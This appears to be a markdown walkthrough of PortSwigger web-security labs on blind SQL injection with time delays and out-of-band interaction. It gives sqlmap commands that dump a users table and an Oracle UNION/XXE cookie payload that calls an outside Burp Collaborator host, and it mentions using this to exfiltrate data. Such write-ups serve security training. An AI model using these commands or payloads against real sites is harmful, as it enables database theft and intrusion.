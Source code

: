 ## Blind SQL injection with time delays and information retrieval
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval


### Quick Solution
As in the previous lab the Database is vulnerable to **SQL Injection with time delays**. We can use the following commands to exploit the lab:
```
# Enumerate tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
# Dump the content of the users table
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
```


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with out-of-band interaction
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band


### Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.


### Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the ``TrackingId`` cookie.
2. Modify the ``TrackingId`` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
```
The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

## Blind SQL injection with out-of-band data exfiltration
Reference: https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration
